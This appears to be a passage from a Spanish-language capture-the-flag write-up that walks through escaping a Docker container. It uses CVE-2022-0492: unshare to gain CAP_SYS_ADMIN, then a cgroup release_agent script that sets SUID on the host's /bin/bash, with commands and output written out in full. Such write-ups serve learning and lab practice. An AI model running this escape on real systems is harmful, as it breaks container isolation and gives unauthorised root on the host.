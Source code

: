 ![Contenedorroot](../assets/images-Carpediem/croot.png)

Buscando como escapar de los contenedores encontré algo [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape)  que me puede servir pero al intentar el primer comando veo que no me funciona 
```bash
root@90c7f522b842:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
mkdir: cannot create directory '/tmp/cgrp': File exists
```
Esto se debe a que no tenemos la capability sys_admin asignada pero buscando veo que el [CVE-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)  nos explica como podemos asignarnos esta capability
```bash
root@90c7f522b842:~# set `cat /proc/$$/status | grep "CapEff:"` ; capsh --decode=$2
0x00000000a00425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
root@90c7f522b842:~# set `cat /proc/$$/status | grep "CapEff:"` ; capsh --decode=$2 | grep sys_admin
```
![cgroup](../assets/images-Carpediem/cgroup.png)

Solo tenemos que aplicar el siguiente comando
```bash
unshare -UrmC bash
```

![cgroup](../assets/images-Carpediem/cgroup2.png)

Ahora si ya podemos aplicar los comandos para cambiar los permisos a SUID de la bash, recomiendo ejecutar todos los comandos a la vez ya que haciéndolo uno por uno, en mi caso me daba un error de que el directorio x no existía 
- Nota: En el articulo del CVE-2022-0492, explica bien esta manera de escapar de docker con Cgroups
```bash
root@90c7f522b842:/tmp# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo 'chmod u+s /bin/bash' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```